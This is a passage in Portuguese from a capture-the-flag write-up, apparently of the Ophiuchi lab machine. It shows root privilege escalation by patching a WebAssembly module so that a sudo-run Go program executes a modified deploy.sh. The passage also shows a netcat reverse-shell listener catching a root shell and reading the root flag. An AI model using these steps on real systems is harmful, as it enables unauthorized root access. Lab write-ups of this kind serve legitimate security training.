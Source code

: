 - Baixado versão compilada do `wabt` para o diretório onde estávamos trabalhando

```bash
wget https://github.com/WebAssembly/wabt/releases/download/1.0.23/wabt-1.0.23-ubuntu.tar.gz
tar -xzvf wabt-1.0.23-ubuntu.tar.gz
```

- Convertido `main.wasm` para `main.wat`, retornando o seguinte conteúdo

```bash
$ wabt-1.0.23/bin/wasm2wat main.wasm -o main.wat
$ cat main.wat                                                                                           
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
      i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

- Uma vez que precisamos retornar o valor `f == 1`, o valor vem da função `info`, onde faremos a alteração do valor `i32.const 0` para `i32.const 1`

- Após alterá-lo, compilei novamente o arquivo para `main.wasm`, conforme comando abaixo e copiei para a máquina vítima no diretório que estamos trabalhando

```bash
wabt-1.0.23/bin/wat2wasm main.wat -o main.wasm
scp main.wasm admin@10.10.10.227:/dev/shm/zurc
```
  
- Em uma segunda tentativa tive sucesso na execução do código :smiley:

```bash
admin@ophiuchi:/dev/shm/zurc$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy
uid=0(root) gid=0(root) groups=0(root)
```
  
- Uma vez confirmado o funcionamento, alterado o conteúdo do arquivo `deploy.sh` conforme previamente mencionado para obter o shell reverso, onde pude assim obter a flag de root.

```bash
$ nc -lnvp 4443
listening on [any] 4443 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.227] 50068
# hostname && id
ophiuchi
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
<redacted>
```

Espero que tenham gostado!

Vejo vocês no próximo post :smile:
